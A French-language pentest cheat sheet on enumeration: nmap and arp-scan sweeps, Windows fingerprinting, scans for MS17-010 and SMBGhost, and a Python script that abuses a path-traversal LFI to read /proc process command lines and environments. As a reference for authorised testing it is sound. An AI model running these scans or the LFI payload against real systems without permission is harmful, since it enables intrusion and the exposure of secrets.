 # Enumération

### Enumération des machines

```
arp-scan <IP>/<MASK> -r 1
```

### Enumération des services (nmap)

* Scan rapide des 1000 ports les plus communs sur un intervalle d'adresses IP :

```
nmap --max-retries 1 -T4 -sS --open -oX nmapSimple_<IP>.xml -oN nmapSimple_<IP>.txt <IP>/<MASK>
```

* Scan des versions sur les 1000 ports les plus communs d'un intervalle d'adresses IP :

```
nmap -sV --open <IP>/<MASK>
```

* Scan UDP des versions sur les 1000 ports les plus communs d'un intervalle d'adresses IP :

```
nmap -sU -sV --open <IP>/<MASK>
```

* Utiliser un script :

```
nmap --script <SCRIPT> -p <PORT> <IP>/<MASK>
```

#### TIPS (nmap)

* Utiliser l'option `-Pn` de `nmap` pour les scans sur les machines Windows.
* Utiliser l'option `-p-` de `nmap` pour scanner tous les ports.

### Enumération des versions d'OS Windows

```
cme smb <IP>/<MASK>
```

```
RunFinger.py -i <IP>/<MASK>
```

**Note :** _Le lien suivant indique si une version est maintenue ou pas : https://docs.microsoft.com/fr-fr/windows/release-health/release-information_

### Enumération des machines vulnérables à MS17-010

_RCE à cause d'une faille du protocole SMBv1_

```
nmap -v -p 445 --script smb-vuln-ms17-010.nse -Pn -oN nmap_scan_ms17-010_<IP>.txt <IP>/<MASK>
```

```
msfconsole (auxiliary/scanner/smb/smb_ms17_010)
```

### Enumération des machines vulnérables à Bleed et Ghost

```
nmap -p 445 --script cve-2020-0796 -Pn -oN nmap_scan_smbBleed_Ghost_<IP>.txt <IP>/<MASK>
```

### Enumération des services _via_ une LFI (Linux)

Dans le répertoire `/proc` chaque processus possèdes un répertoire. Dans celui-ci, il est possible de récupérer des informations sur les services en cours d'exécution.

* Service en écoute sur la machine :

```
/proc/net/tcp
/proc/net/tcp6 
```

* Information sur un processus en particulier :

```
/proc/<PID>/environ
```

* Commande ayant était exécutée pour lancer un processus :

```
/proc/<PID>/cmdline
```

#### Script d'énumération

```
import requests

for i in range (0,10000):
	x = requests.get('http://domain.com?param=/../proc/' + str(i) + '/cmdline')
	if len(x.content) >= 158:
		print(i)
	if i%100 == 0:
		print(str(i) + '%')
```
